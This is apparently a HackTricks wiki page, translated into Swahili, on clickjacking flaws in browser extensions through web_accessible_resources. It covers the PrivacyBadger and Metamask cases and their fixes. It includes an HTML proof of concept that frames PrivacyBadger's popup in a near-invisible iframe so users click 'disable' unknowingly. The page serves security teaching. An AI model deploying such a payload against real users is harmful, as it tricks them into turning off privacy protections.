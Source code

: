 # BrowExt - ClickJacking

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basic Information

Ukurasa huu utaabudu udhaifu wa ClickJacking katika nyongeza ya kivinjari.\
Ikiwa hujui ClickJacking ni nini angalia:

{% content-ref url="../clickjacking.md" %}
[clickjacking.md](../clickjacking.md)
{% endcontent-ref %}

Nyongeza ina faili **`manifest.json`** na faili hiyo ya JSON ina uwanja `web_accessible_resources`. Hapa kuna kile [nyaraka za Chrome](https://developer.chrome.com/extensions/manifest/web\_accessible\_resources) zinasema kuhusu hilo:

> Rasilimali hizi zitapatikana kwenye ukurasa wa wavuti kupitia URL **`chrome-extension://[PACKAGE ID]/[PATH]`**, ambayo inaweza kutengenezwa kwa kutumia **`extension.getURL method`**. Rasilimali zilizoorodheshwa zinatolewa na vichwa vya CORS vinavyofaa, hivyo zinapatikana kupitia mitambo kama XHR.[1](https://blog.lizzie.io/clickjacking-privacy-badger.html#fn.1)

**`web_accessible_resources`** katika nyongeza ya kivinjari si tu zinapatikana kupitia wavuti; pia zinafanya kazi kwa ruhusa za ndani za nyongeza. Hii inamaanisha zina uwezo wa:

* Kubadilisha hali ya nyongeza
* Kupakia rasilimali za ziada
* Kuingiliana na kivinjari kwa kiwango fulani

Hata hivyo, kipengele hiki kinatoa hatari ya usalama. Ikiwa rasilimali ndani ya **`web_accessible_resources`** ina kazi yoyote muhimu, mshambuliaji anaweza kuingiza rasilimali hii kwenye ukurasa wa wavuti wa nje. Watumiaji wasiojua wanaotembelea ukurasa huu wanaweza bila kukusudia kuamsha rasilimali hii iliyounganishwa. Kuamsha kama hiyo kunaweza kusababisha matokeo yasiyokusudiwa, kulingana na ruhusa na uwezo wa rasilimali za nyongeza.

## PrivacyBadger Example

Katika nyongeza ya PrivacyBadger, udhaifu uligundulika kuhusiana na saraka ya `skin/` kutangazwa kama `web_accessible_resources` kwa njia ifuatayo (Angalia [blogu ya asili](https://blog.lizzie.io/clickjacking-privacy-badger.html)):
```json
"web_accessible_resources": [
"skin/*",
"icons/*"
]
```
Hii konfigurasyonu ilileta tatizo la usalama. Kwa hakika, faili la `skin/popup.html`, ambalo linaonyeshwa wakati wa mwingiliano na ikoni ya PrivacyBadger kwenye kivinjari, linaweza kuingizwa ndani ya `iframe`. Kuingizwa huku kunaweza kutumika kudanganya watumiaji kujiingiza bila kujua kwenye kubofya "Disable PrivacyBadger for this Website". Kitendo kama hicho kingeathiri faragha ya mtumiaji kwa kuzima ulinzi wa PrivacyBadger na kwa uwezekano kupelekea mtumiaji kufuatiliwa zaidi. Onyesho la kuona la exploit hii linaweza kuangaliwa katika mfano wa video ya ClickJacking iliyotolewa kwenye [**https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm**](https://blog.lizzie.io/clickjacking-privacy-badger/badger-fade.webm).

Ili kushughulikia udhaifu huu, suluhisho rahisi lilitekelezwa: kuondoa `/skin/*` kutoka kwenye orodha ya `web_accessible_resources`. Mabadiliko haya yalipunguza hatari kwa kuhakikisha kwamba maudhui ya saraka ya `skin/` hayawezi kufikiwa au kubadilishwa kupitia rasilimali zinazoweza kufikiwa mtandaoni.

Suluhisho lilikuwa rahisi: **ondoa `/skin/*` kutoka kwenye `web_accessible_resources`**.

### PoC
```html
<!--https://blog.lizzie.io/clickjacking-privacy-badger.html-->

<style>
iframe {
width: 430px;
height: 300px;
opacity: 0.01;
float: top;
position: absolute;
}

#stuff {
float: top;
position: absolute;
}

button {
float: top;
position: absolute;
top: 168px;
left: 100px;
}

</style>

<div id="stuff">
<h1>
Click the button
</h1>
<button id="button">
click me
</button>
</div>

<iframe src="chrome-extension://ablpimhddhnaldgkfbpafchflffallca/skin/popup.html">
</iframe>
```
## Mfano wa Metamask

A [**blog post about a ClickJacking in metamask can be found here**](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9). Katika kesi hii, Metamask ilirekebisha udhaifu kwa kuangalia kwamba protokali iliyotumika kuifikia ilikuwa **`https:`** au **`http:`** (sio **`chrome:`** kwa mfano):

<figure><img src="../../.gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

**ClickJacking nyingine iliyorekebishwa** katika nyongeza ya Metamask ilikuwa kwamba watumiaji wangeweza **Click to whitelist** wakati ukurasa ulikuwa na shaka kuwa ni uvuvi kwa sababu ya `“web_accessible_resources”: [“inpage.js”, “phishing.html”]`. Kwa kuwa ukurasa huo ulikuwa na udhaifu wa Clickjacking, mshambuliaji angeweza kuutumia kuonyesha kitu cha kawaida ili kumfanya mwathirika abonyeze kuorodhesha bila kutambua, na kisha kurudi kwenye ukurasa wa uvuvi ambao utaorodheshwa.

## Mfano wa Steam Inventory Helper

Angalia ukurasa ufuatao ili kuona jinsi **XSS** katika nyongeza ya kivinjari ilivyofungamanishwa na udhaifu wa **ClickJacking**:

{% content-ref url="browext-xss-example.md" %}
[browext-xss-example.md](browext-xss-example.md)
{% endcontent-ref %}

## Marejeo

* [https://blog.lizzie.io/clickjacking-privacy-badger.html](https://blog.lizzie.io/clickjacking-privacy-badger.html)
* [https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9](https://slowmist.medium.com/metamask-clickjacking-vulnerability-analysis-f3e7c22ff4d9)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
